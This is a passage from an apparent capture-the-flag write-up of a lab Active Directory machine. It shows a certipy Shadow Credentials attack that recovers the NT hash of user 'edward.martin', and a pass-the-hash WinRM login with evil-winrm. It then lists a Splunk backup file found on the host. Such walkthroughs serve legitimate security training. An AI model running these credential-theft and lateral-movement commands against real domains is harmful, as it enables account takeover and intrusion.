 ![image.png](image%2010.png)

### Shadow Credentials Attack

We use the `certipy` tool to perform a **Shadow Credentials** attack against the `edward.martin` user and retreive its NT hash:

```bash
certipy shadow auto -u 'Haze-IT-Backup$' -hashes '4de830d1d58c14e241aff55f82ecdba1' \
-target-ip 10.10.11.61 -ns 10.10.11.61 -account 'edward.martin'
```

```
...
[*] Wrote credential cache to 'edward.martin.ccache'
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Restoring the old Key Credentials for 'edward.martin'
[*] Successfully restored the old Key Credentials for 'edward.martin'
[*] NT hash for 'edward.martin': 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

```
edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

## LM: edward.martin → alexander.green

After reviewing the BloodHound data, we see that the `edward.martin` user belongs to the **Remote Management Users** domain group, meaning we can use **WinRM** to access the target host:

![image.png](image%2011.png)

Logging in as the `edward.martin` user via WinRM:

```bash
evil-winrm -u edward.martin -H '09e0b3eeb2e7a6b0d419e9ff8f4d91af' -i 10.10.11.61
```

```powershell
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\edward.martin\Documents> whoami
haze\edward.martin
*Evil-WinRM* PS C:\Users\edward.martin\Documents>
```

### Splunk Backup Retreival

After enumerating the target host, we find that we can access the `C:\Backups` directory, which includes a `.zip` file named `splunk_backup_2024-08-06.zip`:

```
*Evil-WinRM* PS C:\Backups> tree /f
Folder PATH listing
Volume serial number is 3985-943C
C:.
+---Splunk
        splunk_backup_2024-08-06.zip

*Evil-WinRM* PS C:\Backups>
```
